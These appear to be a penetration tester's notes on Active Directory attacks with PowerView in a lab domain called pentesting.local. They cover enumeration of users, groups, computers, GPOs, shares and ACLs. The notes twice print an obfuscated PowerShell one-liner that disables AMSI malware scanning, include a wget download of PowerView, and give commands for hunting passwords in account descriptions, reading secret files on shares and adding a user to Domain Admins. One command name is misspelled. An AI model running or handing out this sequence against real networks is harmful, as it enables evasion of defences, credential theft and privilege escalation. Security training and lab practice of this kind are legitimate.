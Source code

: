 | SAMPLE DC RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | DC |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | dc.pentesting.local |

| SAMPLE AD RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | AD |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | ad.pentesting.local |

#### 64 Domain User Enumeration

Download PowerView.ps1
```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
```

bypass AMSI
![[2._Powershell  Bypass#Execution bypass]]

```
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
import-module .\PowerView.ps1
```

#### DomainUsers
Get a list of users in the current domain:
```
Get-DomainUser
```

Look at Description field for anything interesting (like passwords!):
```
Get-DomainUser -Properties samaccountname,description
```

Look for who are Domain Admins:
```
Get-DomainUser -Properties samaccountname,memberof
```

Look at descriptions for useful info, and "memberof" for domain admins.  Say we found user jenkinsadmin as a member of domain admins:

```
Get-DomainUser -Name $USER
```

#### SPNs
Find User Accounts used as Service Accounts:
```
Get-DomainUser -SPN
```

```
Get-DomainUser -SPN -Properties samaccountname,memberof
```

```
Get-DomainUser -SPN -Properties samaccountname,description
```

Get list of all properties for users in the current domain:
```
Get-DomainUser –Properties samaccountname,pwdlastset,badpwdcount,lastlogon
```

```
Get-DomainUser –Properties description
```

all enabled users, returning distinguishednames
```
Get-DomainUser -UACFilter NOT_ACCOUNTDISABLE -Properties distinguishedname
```

all disabled users
```
Get-DomainUser -UACFilter ACCOUNTDISABLE
```

#### 65 Domain Group Enumeration

Download powerview
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

bypass AMSI
![[2._Powershell  Bypass#Execution bypass]]

```
SET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
import-module .\PowerView.ps1
```

```
Get-DomainGroup
```

Show only the Domain admins users.
```
Get-DomainGroup -Name "Domain admins"
```

Show only the Domain admins users.
```
Get-DomainGroupMember -Name "Domain admins"
```

Find domains:
```
Get-Domain
```

```
Get-DomainGroup -Domain $DOMAIN_NAME
```

Recursively find users in other groups (nested groups?):
```
Get-DomainGroupMember -Name "Domain admins" -Recurse
```

Find all groups a user belongs to:
```
Get-DomainGroup -Username "jenkinsadmin"
```


#### 66 Domain ComputerServers Enuemration

List all computers and severs connected to domain:
```
Get-DomainComputer
```

Find 2008 OS's if exists:
```
Get-DomainComputer -OperatingSystem "*2008*"
```

```
Get-DomainComputer -Ping
```

```
Get-DomainComputer -Name $HOSTNAME
```


#### 67 PowerView GPO and OU

Get all group policies:
```
Get-DomainGPO
```

Filter specific property:
```
Get-DomainGPO | Select displayname,name
```

```
Get-DomainGPO -ComputerName $HOSTNAME
```

```
Get-DomainGPO -ComputerName $AD
```

```
Get-DomainGPO -ComputerName $DC
```

```
Get-DomainGPO -ComputerName $DNS_DOMAIN_NAME
```

```
Get-Domain
```

```
Get-ForestGlobalCatalog
```

```
Get-DomainOU
```

```
Get-DomainGPO -Name displayname,name
```

#### 68 Domain Shares Enumeration

```
import-module .\PowerView.ps1
```

```
Find-DomainShare -Verbose
```

In this example, say we found a share with a ComputerName of fileshare.pentesting.local, and a Name of Fileshare.  We can cd to it by:
```
cd \\fileshare.pentesting.local\Fileshare
```

```
dir
```

```
Get-DomainUser -Name $USER
```

```
Get-DomainGroup -samaccountname $USER
```

```
Invoke-FileFinder -Verbose
```

```
type \\fileshare.pentesting.local\Fileshare\secret.txt
```

```
Get-DomainFileServer
```

#### 69 PowerView ACL
![[2._Powershell  Bypass#Execution bypass]]

```
Import-Module .\PowerView.ps1
```

Look at all ACLs we have access to for ObjectDN and ObjectSID fields.
```
Get-ObjectAcl -SamAccountName $USER -ResolveGUIDS
```

```
Get-DomainUser -Name $USER
```

```
Get-ObjectAcl -SamAccountName 'Domain Admins' -ResolveGUIDS
```

```
Get-DomainGroup -Name 'Domain Admins'
```

```
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match '$SUID') }
```

```
Get-ObjectAcl -SamAccountName 'Domain Admins' -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match '$SUID') }
```

If any results show up, meaning we have GenericWrite permission, we can add our user to the Domain Admins group:
```
Add-DomainGroupMemeber -identify 'Domain Admins' -Members '$USER' -Domain '$NETBIOS_DOMAIN_NAME'
```

